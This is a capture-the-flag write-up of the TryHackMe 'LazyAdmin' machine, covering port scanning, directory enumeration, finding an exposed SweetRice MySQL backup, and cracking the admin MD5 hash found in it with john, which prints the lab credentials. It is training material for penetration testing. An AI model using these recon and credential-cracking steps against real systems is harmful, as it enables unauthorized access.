









<table>
  <tr>
    <td>
      
    </td>
    <td width="750">
      <h1>LazyAdmin — Write-up</h1>
      <p>Easy linux machine to practice your skills</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

https://tryhackme.com/room/lazyadmin<br>
Have some fun! There might be multiple ways to get user access.

## Reconnaissance

#### 📡 Connectivity Check

```bash
─$ ping -c 3 10.64.184.50
PING 10.64.184.50 (10.64.184.50) 56(84) bytes of data.
64 bytes from 10.64.184.50: icmp_seq=1 ttl=62 time=160 ms
```
#### 🛠️ Port Scanner

```bash
└─$ nmap -n -Pn -T4 -p- -sC -sV 10.64.184.50 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
#### 💻 Initial Browser View: Port 80 



**Initial Analysis:**
* Port 22 (SSH): Running an older version of OpenSSH on Ubuntu. While SSH is rarely the initial entry point without credentials, the version string confirms the target is likely Ubuntu. 🐧
* Port 80 (HTTP): Hosting a default Apache2 page. This indicates that while the server is up, the actual application or interesting content is likely hidden in subdirectories. 🌐
* I inspected the page's source code, but it was the unmodified Apache2 default page with no hidden comments or scripts, indicating that the entry point lies elsewhere

#### 📂 Directory Fuzzing & Enumeration 

```bash
└─$ gobuster dir -u http://10.65.166.220/ -w /usr/share/wordlists/dirb/common.txt 

/content              (Status: 301) [Size: 316] [--> http://10.65.166.220/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 278]

Finished
===============================================================
```
```bash
└─$ gobuster dir -u http://10.65.166.220/content/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================

/_themes              (Status: 301) [Size: 324] [--> http://10.65.166.220/content/_themes/]
/as                   (Status: 301) [Size: 319] [--> http://10.65.166.220/content/as/]
/attachment           (Status: 301) [Size: 327] [--> http://10.65.166.220/content/attachment/]
/images               (Status: 301) [Size: 323] [--> http://10.65.166.220/content/images/]
/inc                  (Status: 301) [Size: 320] [--> http://10.65.166.220/content/inc/]
/index.php            (Status: 200) [Size: 2199]
/js                   (Status: 301) [Size: 319] [--> http://10.65.166.220/content/js/]

Finished
===============================================================
```
***Key Discoveries:***
* The discovery of the /content/ directory confirmed that the server was not just a default installation but hosted a hidden web application.
* Within the /content/ path, the presence of index.php, along with structured folders, strongly indicates a Content Management System (CMS) architecture.
* The /as/ directory was identified, which may serve as a login portal or a restricted administrative area.

#### 🌐 Manual Exploration & Web Inspection 



<details>
<summary>Click here to view the source code</summary>

```bash
<!DOCTYPE html><html xmlns="http://www.w3.org/1999/xhtml"><head>
<meta content="width=device-width, initial-scale=1, minimum-scale=1, maximum-scale=1, user-scalable=0" name="viewport" id="viewport"/><meta http-equiv="Content-Type" content="text/html; charset=UTF-8" /><title>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</title>
<title>SweetRice notice</title>
<script type="text/javascript" src="http://10.65.166.220/content/js/SweetRice.js"></script>
<style>
*{margin:0;}
body{font-family:"Microsoft YaHei",Verdana,Georgia,arial,sans-serif;}
.header{line-height:30px;font-size:20px;background-color:#444;box-shadow:0px 0px 2px 2px #444;color:#fafafa;padding:0px 10px;}
#div_foot{	background-color:#444;height:30px;	line-height:30px;	color:#fff;padding:0px 10px;}
#div_foot a{	color: #66CC00;	text-decoration: none;}
#div_foot a:hover{	color: #66CC00;	text-decoration: underline;}
.content{margin:0px 10px;}
.content h1{
	margin:20px 0px;
	font-size:22px;
}
.content div,.content p{margin-bottom:16px;}
</style>
</head>
<body>
<div class="header">SweetRice notice</div>
<div class="content">
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox "Site close" to open your website.</p><p>More help at <a href="http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/">Tip for Basic CMS SweetRice installed</a></p></div>
<div id="div_foot">Powered by <a href="http://www.basic-cms.org">Basic-CMS.ORG</a> SweetRice.</div>
<script type="text/javascript">
<!--
	_().ready(function(){
		_('.content').css({'margin-top':((_.pageSize().windowHeight-60-_('.content').height())/2)+'px','margin-bottom':((_.pageSize().windowHeight-60-_('.content').height())/2)+'px'});
	});
	_(window).bind('resize',function(){
		_('.content').animate({'margin-top':((_.pageSize().windowHeight-60-_('.content').height())/2)+'px','margin-bottom':((_.pageSize().windowHeight-60-_('.content').height())/2)+'px'});
	});
//-->
</script>
</body>
</html>
```
</details><br>

✅ I successfully identified the CMS: ***SweetRice***

> To ensure a comprehensive understanding of the attack surface, I decided to complete the directory enumeration within the `/content` path before proceeding to vulnerability research.

#### After manually browsing through all the directories identified by Gobuster, I mapped out the application's structure:

<details>
<summary>Click here to view the 🌳 directory tree</summary>

```bash
/content
├── _themes
│   └── default
│       ├── cat.php
│       ├── comment_form.php
│       ├── entry.php
│       ├── foot.php
│       ├── form.php
│       ├── head.php
│       ├── main.php
│       ├── show_comment.php
│       ├── sidebar.php
│       ├── sitemap.php
│       ├── tags.php
│       ├── theme.config
│       └── css
│           └── app.css
│
├── attachment
│   └── (empty)
│
├── images
│   ├── action_icon.png
│   ├── ajax-loader.gif
│   ├── captcha.php
│   ├── captcha.png
│   ├── favicon.ico
│   ├── header_background.png
│   ├── loading.gif
│   ├── logo.png
│   ├── sitemap.xsl
│   ├── sweetrice.jpg
│   ├── sweetrice.png
│   ├── sweetrice_icon.png
│   └── xmlrss.png
│
├── inc
│   ├── 404.php
│   ├── alert.php
│   ├── close_tip.php
│   ├── db.php
│   ├── do_ads.php
│   ├── do_attachment.php
│   ├── do_category.php
│   ├── do_comment.php
│   ├── do_entry.php
│   ├── do_home.php
│   ├── do_lang.php
│   ├── do_rssfeed.php
│   ├── do_sitemap.php
│   ├── do_tags.php
│   ├── do_theme.php
│   ├── error_report.php
│   ├── function.php
│   ├── htaccess.txt
│   ├── init.php
│   ├── install.lock.php
│   ├── lastest.txt
│   ├── rssfeed.php
│   ├── rssfeed_category.php
│   ├── rssfeed_entry.php
│   ├── sitemap_xml.php
│   ├── cache
│   │   └── cache.db
│   ├── font
│   │   └── arial.ttf
│   ├── lang
│   │   ├── big5.php
│   │   ├── en-us.php
│   │   └── zh-cn.php
│   └── mysql_backup
│
├── js
│   ├── SweetRice.js
│   ├── excanvas.compiled.js
│   ├── function.js
│   ├── init.js
│   └── pins.js
│
└── index.php
```

</details><br>

#### 🔑 Identifying the Administrative Portal



<details>
<summary>Click here to view the source code</summary>

```bash
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<meta content="width=device-width, initial-scale=1, minimum-scale=1, maximum-scale=1, user-scalable=0" name="viewport" id="viewport"/>
<title>Welcome to SweetRice! - Dashboard</title>
<link rel="stylesheet" type="text/css" href="site.css">
<script type="text/javascript" src="../js/SweetRice.js"></script>
<script type="text/javascript" src="js/function.js"></script>
<script type="text/javascript" src="js/dashboard.js"></script>
</head>
<body id="body">
<div id="div_top">
<div id="top_image"><a href="http://10.65.166.220/content/" target="_blank"></a></div>
<div id="top_word">
<h1>Welcome to SweetRice!</h1>
</div>
<div id="top_line" data="">......</div>
</div>
<div id="toggle_nav"></div><div id="div_center">
<div class="sign_form">
<h2>Please login</h2>
	<input type="hidden" id="returnUrl" value="/content/as/"/>
	<fieldset><legend>Account</legend>
	<input type="text" id="user"/></fieldset>
	<fieldset><legend>Password</legend>
	<input type="password" id="passwd"/></fieldset>
	<input type="checkbox" id="rememberme" value="1"/> Remember Me	<input type="button" value="Login" class="input_submit" /> <div id="signTip"></div>
	<div class="div_clear"></div>
	<div class="tr"><a href="./?type=password">Forgot Password?</a></div>
</div>
</div>

<script type="text/javascript">
<!--
	_().ready(function(){
		_('#user').bind('keydown',function(event){
			event = event || window.event;
			if(event.keyCode == 13 && _('#user').val() && _('#passwd').val()){
				dashboardSignin();
			}
		});
		_('#passwd').bind('keydown',function(event){
			event = event || window.event;
			if(event.keyCode==13 && _('#user').val() && _('#passwd').val()){
				dashboardSignin();
			}
		});
		
		_('#rememberme').bind('keydown',function(event){
			event = event || window.event;
			if(event.keyCode==13 && _('#user').val() && _('#passwd').val()){
				dashboardSignin();
			}
		});

		_('.input_submit').bind('click',function()  {
			dashboardSignin();
		});
	});

function dashboardSignin(){
	var user = _('#user').val();
	var passwd = _('#passwd').val();
	var rememberMe = _('#rememberme').attr('checked');
	if (!user){
		_('#user').addClass('required').run('focus');
		return ;
	}else{
		_('#user').removeClass('required');
	}
	if (!passwd){
		_('#passwd').addClass('required').run('focus');
		return ;
	}else{
		_('#passwd').removeClass('required');
	}
	_('#signTip').html('');
	var query = new Object();
	query.user = escape(user);
	query.passwd = passwd;
	query.rememberMe = rememberMe;
	_.ajax({
		'type':'POST',
		'data':query,
		'url':'./?type=signin',
		'success':function(result){
				if (typeof(result) == 'object'){
					_('#signTip').html(result['statusInfo']);
					if (result['status']==1){
						location.href = _('#returnUrl').val()?_('#returnUrl').val():'./';
					}
				}
		}
	});

}
//-->
</script>
<div id="div_foot">Powered by <a href="http://www.basic-cms.org">SweetRice</a> &copy; 2026 <div class="btn_bgcolor"></div></div>
<script type="text/javascript">
<!--
	_.ready(function(){
		_('.btn_bgcolor').css({'background-color':_.fromColor(_.getCookie('dashboad_bg') || '#555',true)}).click(function(){
			var color = _.randomColor( 0x88 );
			_.setCookie({'name':'dashboad_bg','value':color});
			_(document.body).animate({'background-color':color},200);
			_('.btn_bgcolor').animate({'background-color':_.fromColor(color,true)},200);
		});
	});
//-->
</script>
</body>
</html>
```
</details>

#### 📂 Exploiting Data Leakage: MySQL Backup Extraction 

```
Index of /content/inc/mysql_backup

[PARENTDIR]	Parent Directory	 	- 	 
[ ]	mysql_bakup_20191129023059-1.5.1.sql	2019-11-29 12:30 	4.7K	

Apache/2.4.18 (Ubuntu) Server at 10.65.166.220 Port 80
```
```bash
└─$ wget http://10.65.166.220/content/inc/mysql_backup/
--2026-01-05 00:50:45--  http://10.65.166.220/content/inc/mysql_backup/
Conectando-se a 10.65.166.220:80... conectado.
A requisição HTTP foi enviada, aguardando resposta... 200 OK
Tamanho: 1043 (1,0K) [text/html]
Salvando em: “index.html”

index.html                                   100%[=============================================================================================>]   1,02K  --.-KB/s    em 0s      

2026-01-05 00:50:46 (83,0 MB/s) - “index.html” salvo [1043/1043]
```
<details>
<summary>Click to view the full file: mysql_bakup_20191129023059-1.5.1.sql</summary>

```bash 
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
</details><br>

```bash
─$ cat mysql_bakup_20191129023059-1.5.1.sql | grep -i "insert into" | sort -u
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
```
🔓 Sensitive Data Analysis & Credential Extraction
* Username: manager<br>
* Password Hash: 42f749ade7f9e195bf475f37a44cafcb (MD5)

#### 💡 Cracking the Hash

```bash
$ └─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      (?)     
1g 0:00:00:00 DONE (2026-01-05 09:04) 20.00g/s 675840p/s 675840c/s 675840C/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
